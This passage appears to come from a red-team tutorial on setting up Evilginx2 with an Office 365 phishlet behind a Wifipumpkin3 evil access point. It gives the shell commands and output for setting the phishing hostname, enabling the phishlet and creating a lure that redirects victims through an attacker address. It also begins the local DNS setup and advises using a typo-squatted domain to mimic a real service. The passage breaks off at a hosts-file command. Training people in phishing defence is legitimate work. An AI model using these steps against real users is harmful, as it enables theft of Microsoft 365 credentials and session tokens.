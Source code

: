 [..SNIP..]

: phishlets hostname o365 fakedomain.com

[15:22:47] [inf] phishlet 'o365' hostname set to: fakedomain.com
[15:22:47] [inf] disabled phishlet 'o365'

: phishlets enable o365

: phishlets

+-----------+-----------+-------------+-----------------+-------------+
| phishlet  |  status   | visibility  |    hostname     | unauth_url  |
+-----------+-----------+-------------+-----------------+-------------+
| example   | disabled  | visible     |                 |             |
| o365      | enabled   | visible     | fakedomain.com  |             |
+-----------+-----------+-------------+-----------------+-------------+
</code></pre>
<hr/>
<h3>Lure Configuration</h3>
<p><code>Lures</code> are essentially pre-generated phishing links, which we will be sending out on our engagements. Evilginx2 provides multiple options to customize our lures. For our scenario, we will be creating <code>o365</code>, containing a <code>redirect_url</code> parameter which will redirect the user from the attacker address at <code>http://172.16.0.1/verify</code> to our phishlet at <code>https://login.fakedomain.com/{path}</code>. The <code>{path}</code> is randomly generated and serves to identify and track progress for unique users accessing the phishlet.</p>
<pre><code class="language-shell-session">: lures create o365

[16:28:32] [inf] created lure with ID: 0

: lures edit 0 redirect_url "http://172.16.0.1:8080/verify"

[21:24:13] [inf] redirect_url = 'http://172.16.0.1:8080/verify'

: lures

+-----+-----------+-----------+------------+-------------+-------------------------------+---------+------+
| id  | phishlet  | hostname  |   path     | redirector  |   redirect_url                | paused  |  og  |
+-----+-----------+-----------+------------+-------------+-------------------------------+---------+------+
| 0   | o365      |           | /vISVhLCE  |             | http://172.16.0.1:8080/verify |         | ---- |
+-----+-----------+-----------+------------+-------------+-------------------------------+---------+------+
</code></pre>
<p>Once done, we can consider the Evilginx2 configuration complete.</p>
<hr/>
<h3>DNS Service Configuration</h3>
<p>Because our evil AP will be acting as the gateway and a DNS service, we will be creating entries for the phishing domain locally, with values that are inserted into <code>/etc/hosts</code> on the attacker host. Any domain will work here, for demonstration purposes, but keep in mind the real attack should be run on an attacker-owned domain using typo-squatting to mimic a real service.</p>
<p>The subdomain entries we add for each new line are dependent on our <code>o365.yaml</code> file entries, under the <code>proxy_hosts</code> field visible in the paragraph above. All of the entries there will need to be present in our <code>/etc/hosts</code> file. The corresponding IPv4 address will always be the <code>router</code> address assigned initially on Wifipumpkin3.</p>
<pre><code class="language-shell-session">[!bash!]$ cat /etc/hosts
